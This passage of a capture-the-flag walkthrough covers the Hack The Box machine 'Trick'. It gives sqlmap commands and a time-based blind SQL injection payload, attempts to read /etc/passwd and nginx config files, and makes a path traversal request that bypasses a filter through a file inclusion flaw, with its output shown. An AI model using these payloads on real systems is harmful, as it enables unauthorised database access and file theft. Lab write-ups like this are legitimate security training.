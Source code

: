 Checking for current user

**Command**
```
┌──(gemstone㉿hashghost)-[~/C7F5/htb/trick]
└─$ sqlmap -r add_user.req --dbms mysql --current-user --thread 10 --batch 
```
**Result**
```
Parameter: name (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=&name=a' AND (SELECT 2424 FROM (SELECT(SLEEP(5)))aItF) AND 'mKFY'='mKFY&username=a&password=a&type=1
---
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
current user: 'remo@localhost'
```
Current user is `remo`

Check if we can read files

**Command**
```
┌──(gemstone㉿hashghost)-[~/C7F5/htb/trick]
└─$ sqlmap -r add_user.req --dbms mysql --file-read=/etc/passwd --thread 10 --batch 
```
This took so long to complete but it is a  proof that we can read files.
>
>┌──(gemstone㉿hashghost)-[~/C7F5/htb/trick]                                                                                                                                                   
└─$ sqlmap -r add_user.req --dbms mysql --file-read=/etc/nginx/nginx.conf --thread 10 --batch 
>
>┌──(gemstone㉿hashghost)-[~/C7F5/htb/trick]                                                                                                                                                   
└─$ sqlmap -r add_user.req --dbms mysql --file-read=/etc/ngins/nginx.conf --thread 10 --batch 
>

## Privilege Escalation
### User 
on `http://preprod-marketing.trick.htb/index.php?page=services.html` there is a file inclusion vulnerability. Then it allows an attacker to read files from the server.

**Request**
```
GET /index.php?page=..././..././..././etc/passwd HTTP/1.1
Host: preprod-marketing.trick.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```
**Response**
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
```